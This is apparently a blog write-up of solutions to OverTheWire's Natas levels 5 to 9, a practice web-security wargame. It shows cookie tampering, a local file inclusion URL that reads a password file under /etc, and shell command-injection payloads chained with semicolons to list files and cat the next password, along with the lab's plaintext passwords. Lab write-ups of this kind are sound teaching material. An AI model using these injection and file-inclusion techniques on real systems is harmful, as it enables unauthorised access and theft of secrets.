 ```yaml
---
title: "Over the Wire NATAS: Levels 5-9"
date: 2020-11-26 16:04:00 -0800
categories: [overthewire, writeup]
tags: [writeup, web, linux, commandinjection]
toc: true
---
```

## Introduction

This is the second of my writeups for OverTheWire's Natas series of challenges. You can view the first part [here](../posts/otw-natas-0-4/).

## Level 5

Username: natas5

Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Upon opening the webpage, I see the following message:

> Access disallowed. You are not logged in

There was nothing in the source code so I decided to check the cookies associated with the page. On Firefox/Chrome, this can be done by using the shortcut ``Ctrl+Shift+I`` --> ``Storage`` --> ``Cookies``. 

I see one cookie named ``loggedin`` with a value of 0. From experience, I can make the assumption that 0 = False, therefore 1 would equal True. I change the value of the cookie to 1 and refreshed the page.

The text on the page now shows that I am logged in and presents the flag for the next level.

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

## Level 6

Username: natas6

Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

Upon opening the webpage, I see that there is a form where I can submit a query. There is also a link to the source code for this form.

This snippet of code looks interesting.

```
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

It looks like the ``$secret`` variable our input is being compared to comes from the file ``includes/secret.inc``. I naviagte to that web page to find the secret key.

```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Submitting the value of this variable on the form gives me the password for the next level.

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 
```

## Level 7

User: Natas7

Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

Upon opening the challenge, I see links to two different pages: ``home`` and ``about``. 

I'll take a look at ``home``. 

There are things that stick out right away. The first thing is that from the source code, there is an interesting HTML comment.

```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

The second thing is from the URL of the home page.

```
http://natas7.natas.labs.overthewire.org/index.php?page=home
```

The ``?page=`` parameter shows that this is a ``Local File Inclusion`` challenge. We can specify the path of the file we want to view, so let's view ``/etc/natas_webpass/natas8`` as that is where the password should be.

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

> DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 

## Level 8

User: Natas8
Password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 

It looks like there is another form where we can submit a query. Let's view the source code again:

```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>
```

Ok, it looks like we have to enter a string that, when passed through the ``encodeSecret`` function, equals the encodedSecret variable in the code.

Three operations are applied to it. First, it is encoded in base64. Second, the string is reversed. Finally, the ``bin2hex`` function is used. I'm not exactly sure what this does, so I google it. 

> Returns an ASCII string containing the hexadecimal representation of str.

Sounds simple enough, if we pass it through a hex value -> ascii representation tool online, we should be able to undo that.

Using [this](https://www.rapidtables.com/convert/number/hex-to-ascii.html) tool, I was able to get the following string:

> ==QcCtmMml1ViV3b

Now, I'll use [this](https://codebeautify.org/reverse-string) tool to reverse the string.

> b3ViV1lmMmtCcQ==

Finally, I'll base64 decode it using [this](https://www.base64decode.org/) tool.

We end up with ``oubWYf2kBq``, which when I submit as the query produces the password needed for level 9.

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## Level 9

User: natas9

Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

We are given a form with the prompt ``Find words containing:``. Let's view the source code.

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

So it takes whatever we put in the form and throws it into the command ``grep -i $key dictionary.txt``.

We can control whatever is in ``$key``, so we can easily abuse this form. There are several different ways to easily solve it.

I will solve it by absuing this character: ``;``. A semicolon is treated like you pressing the enter key, so it starts a new command.

Knowing that, we can assemble a simple injection to run commands.

```
wordthatwillnotbefound dictionary.txt; ls; grep -i wordthatwillnotbefound
```

If we use this as our query, this is what the server will run:

```
grep -i wordthatwillnotbefound dictionary.txt; ls; grep -i wordthatwillnotbefound dictionary.txt
```

Keeping in mind the first and last commands will not return anything, the output of the command ``ls`` is all that we will see.

This is the output:

```
dictionary.txt
index-source.html
index.php
index.php.tmpl
```

Cool! It works. Looking back at Level 7, we know that the flag for the next challenge will always be stored at ``/etc/natas_webpass/natas<next level>``, in this case the next level is 10, so our injection should reflect that.

```
wordthatwillnotbefound dictionary.txt; cat /etc/natas_webpass/natas10; grep -i wordthatwillnotbefound
```

```
Output:

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

## Conclusion

So far, all of the changes have been basic but I'm quickly reaching the limits of what I've already known/experienced and seen in previous CTFs. I'm excited to see how the next few levels will play out.